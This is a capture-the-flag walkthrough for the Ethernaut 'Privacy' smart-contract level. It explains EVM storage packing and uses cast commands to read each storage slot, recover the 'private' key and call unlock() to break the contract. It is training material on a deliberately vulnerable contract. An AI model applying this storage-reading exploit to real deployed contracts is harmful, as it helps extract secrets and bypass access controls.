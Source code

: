 ## Privacy Level Outline

**Difficulty : 8/10**

The creator of this contract was careful enough to protect the sensitive areas of its storage.

Unlock this contract to beat the level.

```solidity  
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Privacy {

  bool public locked = true;
  uint256 public ID = block.timestamp;
  uint8 private flattening = 10;
  uint8 private denomination = 255;
  uint16 private awkwardness = uint16(now);
  bytes32[3] private data;

  constructor(bytes32[3] memory _data) public {
    data = _data;
  }
  
  function unlock(bytes16 _key) public {
    require(_key == bytes16(data[2]));
    locked = false;
  }
}
```

[Link to level on Ethernaut](https://ethernaut.openzeppelin.com/level/0x11343d543778213221516D004ED82C45C3c8788B)

## Solution

To solve this level, we need an understanding of how contract storage slots work and how they are assigned.

- The wordsize of the EVM is equal to 256 bits (32 bytes)
    - This means that each storage slot has a capacity of 32 bytes
- Statically sized variables are laid out contigously in storage starting at slot 0
    - Statically sized variables reffer to variables with a fixed size 
- If multiple variables of size less than 32 bytes are declared one after another, they are packed into a single storage slot based on the following rules :
    - The first item in a storage slot is stored lower-order aligned (little endian ordering) 
    - If an element type does not fit in the remaining part of a storage slot, it is moved to the next storage slot
    - Structs and array data always start a new slot and occupy whole slots (items inside a struct or array are packed tightly according to the above rules)
- The elements of structs and arrays are stored after each other, just as though they were given explicitly.

##### Extra Info Not Related To Level
- Due to their unpredictable size, mapping and dynamically-sized array types use a Keccak-256 hash computation to find the starting position of the value or the array data. These starting positions are always full stack slots.
- Constant variables are stored in code not contract storage

Read more about layout of state variables in Storage from the docs [here](https://docs.soliditylang.org/en/v0.4.24/miscellaneous.html)

### Walkthrough

*Let's inspect each memory slot individually and make sense of what is going on

##### 1. inspecting **storage slot 0**
```console
cast storage $LEVEL_ADDRESS 0
```
output 
```console
0x0000000000000000000000000000000000000000000000000000000000000001
```
we know that **storage slot 0** represents the variable `locked` as it is the first declared variable in our contrat. a value of 1 equals true which matches the value assigned to locked.

```solidity
bool public locked = true;
```
boolean types require 1 byte of storage, but because the next variable in our contract : `ID` is of type `uint256`, it takes up 32 bytes to store (a full storage slot) meaning it cannot be packed with `locked` so it stored in the next storage slot. 

##### 2. inspecting storage slot 1
```console
cast storage $LEVEL_ADDRESS 1
```
output 
```console
0x000000000000000000000000000000000000000000000000000000006273be09
```

we know that storage slot 1 represents the variable `ID`. 

```solidity
uint256 public ID = block.timestamp;
```

this means that the data we see is the hex representation of the block's unix timestamp

##### 3. inspecting storage slot 2
```console
cast storage $LEVEL_ADDRESS 2
```
output 
```console
0x00000000000000000000000000000000000000000000000000000000be09ff0a
```
we know that storage slot 2 represents the variables `flattening`, `denomination`, and `awkwardness` as they can be packed into a single storage slot

```solidity
uint8 private flattening = 10;
uint8 private denomination = 255;
uint16 private awkwardness = uint16(now);
```

remember that the evm uses little endian order when handling byte ordering so we read the memory slot from right to left

    - the byte `0a` is the uint8 variable **flattening**. We can confirm this as `a` is `10` in decimal
    - the byte `ff` is the uint8 variable **denomination**. We can confirm this as `ff` is `255` in decimal
    - the 2 bytes `be09` is the uint16 variable **akwardness**. The value represents the 16bit mask of the `block.timestamp`

##### 4. inspecting storage slot 3
```console
cast storage $LEVEL_ADDRESS 3
```
output 
```console
0x44a557ce091a1a07e9a3901396684f550c3cacb7705a0fd31c8828e285faea82
```
we know that storage slot 3 represents `data[0]` - the first element of the array data

```solidity
bytes32[3] private data;
```

`data` is an array of bytes32 which means that each element takes up 32 bytes (a whole storage slot)

##### 5. inspecting storage slot 4
```console
cast storage $LEVEL_ADDRESS 4
```
output 
```console
0x640a1bfd48f6be7abf68d08b273284d0e55ba9cfc823d8db74b24e6f486c5204
```
we know that storage slot 4 represents `data[1]` - the second element of the array data

```solidity
bytes32[3] private data;
```

##### 6. inspecting storage slot 5
```console
cast storage $LEVEL_ADDRESS 5
```
output 
```console
0x08f99efe07ce4fbea4eee5523a0e5d66aeb986ab62a85e5e53c1400155e1ae62
```
we know that storage slot 5 represents `data[2]` - the third element of the array data

```solidity
bytes32[3] private data;
```
we need the third element of `data` to pass the level, this is the value that we are interested in

##### 7. because the "unlock(bytes16 _key)" function expects a bytes16 variable and not a bytes32, we need to only pass the first 16 bytes of `data[2]` to the unlock function to complete this level
```console
cast send $LEVEL_ADDRESS "unlock(bytes16)" 0x08f99efe07ce4fbea4eee5523a0e5d66 --private-key $PRIVATE_KEY
```

## Further Reading
[how to read Ethereum contract storage](https://medium.com/aigang-network/how-to-read-ethereum-contract-storage-44252c8af925) by Darius - A practical guide

